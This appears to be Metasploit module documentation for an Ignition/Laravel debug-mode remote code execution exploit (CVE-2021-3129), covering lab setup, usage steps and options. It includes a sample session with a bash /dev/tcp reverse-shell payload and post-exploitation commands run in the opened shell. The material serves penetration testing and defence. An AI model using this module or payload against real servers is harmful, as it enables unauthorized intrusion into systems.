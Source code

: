 ## Vulnerable Application

Ignition prior to 2.5.2, as used in Laravel and other products, allows unauthenticated remote malicious users to execute arbitrary code because of insecure usage of file_get_contents() and file_put_contents(). This is exploitable on sites using debug mode with Laravel prior to 8.4.2.

This module has been tested successfully on Debian 10.7 (x86_64) with kernel version 5.10.60.

The easiest way to deploy a vulnerable application is to use the image from the vulhub project available over docker compose [here](https://github.com/vulhub/vulhub/blob/master/laravel/CVE-2021-3129/docker-compose.yml). However this container doesn't come
with the required log file created, then it needs to be created manually in the path `/var/www/storage/logs/laravel.log`.

## Verification Steps
Confirm that functionality works:
1. Start `msfconsole`
2. `use exploit/multi/php/ignition_laravel_debug_rc`
3. set `RHOSTS` and `RPORT`
4. Confirm the target is vulnerable: `check`
5. Confirm that the target is vulnerable: `The target is vulnerable.`
6. It come already with a default payload `cmd/unix/reverse_bash`
7. `set LHOST`
8. `exploit`
9. Confirm you have now a cmd session

## Options

### TARGETURI (required)

The path to the Ignition _solutions_ file to exploit. By default, the path is  `/_ignition/execute-solution`.

### LOGPATH (optional)

Path to Laravel's log file, which contains every PHP error and stack trace. By default it is stored in `storage/logs/laravel.log`. If not defined this module will try to automatically determine it based on the stack trace of the application.


## Scenarios
```
msf exploit(multi/php/ignition_laravel_debug_rce) > exploit

[+] bash -c '0<&65-;exec 65<>/dev/tcp/172.28.241.244/4444;sh <&65 >&65 2>&65'
[*] Started reverse TCP handler on 172.28.241.244:4444
[*] Checking component version to 172.28.240.1:8080
[*] Debug mode is enabled.
[*] Found PHP 7.4.15 running Laravel 8.26.1
[*] Found log file /var/www/storage/logs/laravel.log
[*] Command shell session 2 opened (172.28.241.244:4444 -> 172.28.240.1:56840 ) at 2022-02-08 11:32:12 +0100

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
php /var/www/artisan --version
Laravel Framework 8.26.1
head ../vendor/facade/ignition/CHANGELOG.md
# Changelog

All notable changes to `ignition` will be documented in this file

## 2.5.1 - 2020-11-13

- add support for LiveWire component urls

## 2.5.0 - 2020-10-27

uname -a
Linux 9f96df025a2b 5.10.60.1-microsoft-standard-WSL2 #1 SMP Wed Aug 25 23:20:18 UTC 2021 x86_64 GNU/Linux
cat /etc/debian_version
10.7
exit
[*] 172.28.240.1 - Command shell session 2 closed.
```

### Version and OS
This module has been tested successfully on Debian 10.7 (x86_64) with kernel version 5.10.60. Details as below: 

* PHP 7.4.1
* Laravel Framework 8.26.1
* Ignition 2.5.1
* Debian 10.7
